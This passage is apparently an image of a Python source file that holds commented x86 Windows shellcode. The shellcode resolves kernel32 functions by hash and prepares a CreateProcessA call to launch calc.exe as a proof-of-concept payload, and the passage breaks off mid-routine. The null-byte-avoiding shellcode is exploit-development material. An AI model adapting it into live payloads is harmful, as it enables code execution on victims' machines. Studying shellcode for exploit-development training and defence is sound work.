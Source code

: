 ```python
    "   add   edx, ebx                  ;"  # Convert ordinals RVA to VA
    "   mov   cx,  [edx+2*ecx]          ;"  # CX = function ordinal
    "   mov   edx, [edi+0x1c]           ;"  # EDX = RVA of function addresses table
    "   add   edx, ebx                  ;"  # Convert addresses RVA to VA
    "   mov   eax, [edx+4*ecx]          ;"  # EAX = RVA of function
    "   add   eax, ebx                  ;"  # Convert function RVA to VA
    "   mov   [esp+0x1c], eax           ;"  # Overwrite EAX in saved registers (via PUSHAD)
    " find_function_finished:            "  # Function resolution complete
    "   popad                           ;"  # Restore registers (with EAX = function address)
    "   ret                             ;"  # Return to caller
    " resolve_symbols_kernel32:          "  # Begin resolving specific API functions
    "   push  0x78b5b983                ;"  # Push TerminateProcess hash
    "   call dword ptr [ebp+0x04]       ;"  # Call find_function to resolve address
    "   mov   [ebp+0x10], eax           ;"  # Store TerminateProcess address
    "   push  0x16b3fe72                ;"  # Push CreateProcessA hash
    "   call dword ptr [ebp+0x04]       ;"  # Call find_function to resolve address
    "   mov   [ebp+0x18], eax           ;"  # Store CreateProcessA address
    " launch_calc:                       "  # Begin calculator launching routine
    "   xor   eax, eax                  ;"  # Clear EAX for NULL terminator
    "   push  eax                       ;"  # Push NULL terminator for string
    "   push  0x6578652e                ;"  # Push ".exe" (in reverse byte order)
    "   push  0x636c6163                ;"  # Push "calc" (in reverse byte order)
    "   mov   ebx, esp                  ;"  # EBX = pointer to "calc.exe" string
    " create_startupinfoa:               "  # Begin creating STARTUPINFO structure
    "   xor   eax, eax                  ;"  # Clear EAX for multiple zero values
    "   push  eax                       ;"  # hStdError = NULL
    "   push  eax                       ;"  # hStdOutput = NULL
    "   push  eax                       ;"  # hStdInput = NULL
    "   push  eax                       ;"  # lpReserved2 = NULL
    "   push  eax                       ;"  # cbReserved2 & wShowWindow = 0
    "   push  eax                       ;"  # dwFlags = 0
    "   push  eax                       ;"  # dwFillAttribute = 0
    "   push  eax                       ;"  # dwYCountChars = 0
    "   push  eax                       ;"  # dwXCountChars = 0
    "   push  eax                       ;"  # dwYSize = 0
    "   push  eax                       ;"  # dwXSize = 0
    "   push  eax                       ;"  # dwY = 0
    "   push  eax                       ;"  # dwX = 0
    "   push  eax                       ;"  # lpTitle = NULL
    "   push  eax                       ;"  # lpDesktop = NULL
    "   push  eax                       ;"  # lpReserved = NULL
    "   mov   al, 0x44                  ;"  # AL = 68 (size of STARTUPINFO structure)
    "   push  eax                       ;"  # cb = 68 (first field of STARTUPINFO)
    "   push  esp                       ;"  # Push pointer to STARTUPINFO
    "   pop   esi                       ;"  # ESI = pointer to STARTUPINFO
    " call_createprocessa:               "  # Prepare for CreateProcessA call
    "   mov   eax, esp                  ;"  # Get current stack pointer
    "   xor   ecx, ecx                  ;"  # Clear ECX for stack space calculation
    "   mov   cx, 0x390                 ;"  # ECX = 912 bytes (space for PROCESS_INFORMATION)
    "   sub   eax, ecx                  ;"  # EAX = location for PROCESS_INFORMATION
    "   push  eax                       ;"  # lpProcessInformation parameter
    "   push  esi                       ;"  # lpStartupInfo parameter
    "   xor   eax, eax                  ;"  # Clear EAX for NULL values
    "   push  eax                       ;"  # lpCurrentDirectory = NULL
    "   push  eax                       ;"  # lpEnvironment = NULL
    "   push  eax                       ;"  # dwCreationFlags = 0
    "   inc   eax                       ;"  # EAX = 1 (avoid NULL byte)
    "   push  eax                       ;"  # bInheritHandles = TRUE
    "   dec   eax                       ;"  # EAX = 0 again
    "   push  eax                       ;"  # lpThreadAttributes = NULL
    "   push  eax                       ;"  # lpProcessAttributes = NULL
    "   push  ebx                       ;"  # lpCommandLine = "calc.exe"
    "   push  eax                       ;"  # lpApplicationName = NULL
```